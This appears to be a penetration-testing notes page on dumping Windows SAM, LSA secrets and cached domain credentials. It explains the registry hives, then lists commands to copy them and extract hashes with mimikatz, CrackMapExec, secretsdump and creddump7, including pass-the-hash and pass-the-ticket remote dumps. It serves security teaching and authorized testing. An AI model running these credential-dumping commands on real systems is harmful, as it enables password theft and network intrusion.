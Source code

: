 # SAM & LSA secrets & Cached Domain Credentials

### Theory

On Windows systems, credentials are stored in different hashed formats in the registry hives (SAM and SECURITY). However, we also need the SYSTEM hive which contains the system boot key (or System Key) that allows decrypting the above mentioned hives.

|   Hive   |                                             Description                                            |                                                                                                    Credentials                                                                                                   |
| :------: | :------------------------------------------------------------------------------------------------: | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
|    SAM   |                          Stores locally cached credentials (SAM secrets).                          |                                                                        <ul><li>LM/NT hashes (in rare cases, plaintext passwords)</li></ul>                                                                       |
| SECURITY |                                         Stores LSA secrets.                                        | <ul><li>LM/NT hashes (service accounts, SYSTEM account, etc.)</li><li>Cached Domain Credentials (DCC1 and DCC2)</li><li>DPAPI master keys</li><li>Security Questions (<code>L$_SQSA_&#x3C;SID></code>)</li></ul> |
|  SYSTEM  | It contains the system boot key (or System Key) that allows decrypting the SECURITY and SAM hives. |                                                                                                                                                                                                                  |

For a more detailed look at what is contained in SAM/LSA secrets and other types of credentials/keys, see the "Windows computers credentials" section of the following resource:

{% content-ref url="../../../active-directory/theory/06.-computers/2.-windows-computers.md" %}
[2.-windows-computers.md](../../../active-directory/theory/06.-computers/2.-windows-computers.md)
{% endcontent-ref %}

### Exfiltration

{% hint style="warning" %}
Remember that if Windows is running, the hives are in use and therefore, we can only create a copy and then transfer them. If it is not in use (for example, if we got a hard disk with the entire Windows file system), we can transfer it directly.
{% endhint %}

{% tabs %}
{% tab title="reg" %}
```
reg save HKLM\SAM SAM.bak
reg save HKLM\SYSTEM SYSTEM.bak
reg save HKLM\SECURITY SECURITY.bak
```
{% endtab %}

{% tab title="esentutl.exe" %}
```shell
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\temp\system
esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security
```
{% endtab %}
{% endtabs %}

### Practice

{% tabs %}
{% tab title="mimikatz" %}
{% hint style="info" %}
For unstable shells, we can use all commands in an oneliner (see below).
{% endhint %}

```bash
token::elevate # To acquire a session as the SYSTEM user.
privilege::debug # Enable SeDebugPrivilege.

# Oneliner:
.\mimikatz.exe "token::elevate" "privilege::debug" "<COMMAND>" exit

# Dump credentials of the local account (SAM):
lsadump::sam # Local
lsadump::sam /patch # Local
lsadump::sam /sam:'C:\path\to\SAM' /system:'C:\path\to\SYSTEM' # Offline.

# Dump LSA secrets:
lsadump::secrets # Local
lsadump::secrets /system:'c:\path\to\SYSTEM' /security:'c:\path\to\SECURITY' # Offline.

# Dump cached domain credentials (SECURITY hive):
lsadump::cache # Local
lsadump::cache /security:'C:\path\to\SECURITY' /system:'C:\path\to\SYSTEM' # Offline
```
{% endtab %}

{% tab title="CrackMapExec" %}
```bash
# Remote dump SAM/LSA secrets:
crackmapexec smb <TARGET> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --sam
crackmapexec smb <TARGET> -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --lsa

# Remote dump SAM/LSA secrets (local authentication):
crackmapexec smb <TARGET> -u <USERNAME> -p <PASSWORD> --local-auth --sam
crackmapexec smb <TARGET> -u <USERNAME> -p <PASSWORD> --local-auth --lsa

# Remote dump SAM/LSA secrets (Pass-The-Hash):
crackmapexec smb <TARGET> -d <DOMAIN> -u <USERNAME> -H <HASH> --sam
crackmapexec smb <TARGET> -d <DOMAIN> -u <USERNAME> -H <HASH> --lsa

# Remote dump SAM/LSA secrets (Pass-The-Ticket):
crackmapexec smb <TARGET> --kerberos --sam
crackmapexec smb <TARGET> --kerberos --lsa
```
{% endtab %}

{% tab title="secretsdump" %}
```bash
# Remote dump SAM/LSA secrets:
secretsdump.py '<DOMAIN>/<USERNAME>:<PASSWORD>@<TARGET>'

# Remote dump SAM/LSA secrets (Pass-The-Hash):
secretsdump.py -hashes '<HASH>' '<DOMAIN>/<USERNAME>@<TARGET>'

# Remote dump SAM/LSA secrets (Pass-The-Ticket):
secretsdump.py -k '<DOMAIN>/<USERNAME>@<TARGET>'

# Offline dump SAM/LSA secrets from SYSTEM, SAM and SECUTIRY hives:
secretsdump.py -system SYSTEM -sam SAM LOCAL # SAM secrets
secretsdump.py -system SYSTEM -security SECURITY LOCAL # LSA Secrets
secretsdump.py -system SYSTEM -sam SAM -security SECURITY LOCAL # Both.
```
{% endtab %}

{% tab title="creddump7" %}
```bash
# Installation:
git clone https://github.com/Neohapsis/creddump7 # Python2
git clone https://github.com/Tib3rius/creddump7 # Python2/3
# Dependencies:
pip2 install pycrypto
pip3 install pycrypto
# Use:
python2 creddump7/pwdump.py SYSTEM SAM # SAM secrets
python2 creddump7/pwdump.py SYSTEM SECURITY # LSA secrets
python3 creddump7/pwdump.py SYSTEM SAM SECURITY # Both.
```

{% hint style="danger" %}
If there are problems with the functionality of the script, we can do the following: `pip install pycryptodome==3.4.3`
{% endhint %}
{% endtab %}
{% endtabs %}
